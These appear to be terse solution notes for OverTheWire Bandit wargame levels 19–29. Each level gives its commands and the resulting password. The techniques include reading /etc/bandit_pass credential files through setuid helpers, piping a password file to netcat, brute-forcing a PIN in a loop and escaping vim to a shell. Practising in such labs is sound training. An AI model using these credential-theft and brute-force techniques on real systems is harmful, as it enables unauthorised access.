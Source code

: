19)
- ssh bandit18@bandit.labs.overthewire.org -p 2220 -t "cat readme"
: cGWpMaKXVwDUNgPAVJbWYuGHVn9zl3j8

20)
- ./bandit20-do cat /etc/bandit_pass/bandit20
: 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO

21)
- tmux
- 1st: nc -l localhost 50000
- 2nd: ./suconnect 50000
- 1st: 0qXahG8ZjOVMN9Ghs7iOWsCfZyXOUbYO
: EeoULMCra2q0dSkYj561DX7s1CpBuOBt

22)
- cat /etc/cron.d/cronjob_bandit22
- cat /usr/bin/cronjob/cronjob_bandit22.sh
- cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
: tRae0UfB9v0UzbCdn9cY0gQnds9GF58Q

23)
- cat /etc/cron.d/cronjob_bandit23
- cat /usr/bin/cronjob/cronjob_bandit23.sh
- echo I am user bandit23 | md5sum | cut -d ' ' -f 1
- cat /tmp/8ca319486bfbbc3663ea0fbe81326349
: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

24)
- cat mostra_senha.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 | nc localhost 60000 
- nc -l 600000
: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

25)
- for i in {0000..9999} ; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" ; done | nc localhost 30002
: iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

26)
- Putaria com more
- inside vim: set shell=/bin/bash
- inside vim: term
: s0773xxkk0MXfdqOfPRVr9L3jJBUOgCZ

27)
- ./bandit27-do cat /etc/bandit_pass/bandit27
: upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB

28) 
- git clone ssh://bandit27-git@bandit.labs.overthewire.org:2220/home/bandit27-git/repo
: Yz9IpL0sBcCeuG7m9uQFt8ZNpS4HZRcN

29) 
- git clone ssh://bandit28-git@bandit.labs.overthewire.org:2220/home/bandit28-git/repo
- git show
: 4pT1t5DENaYuqnqvadYs1oE4QLCdjmJ7
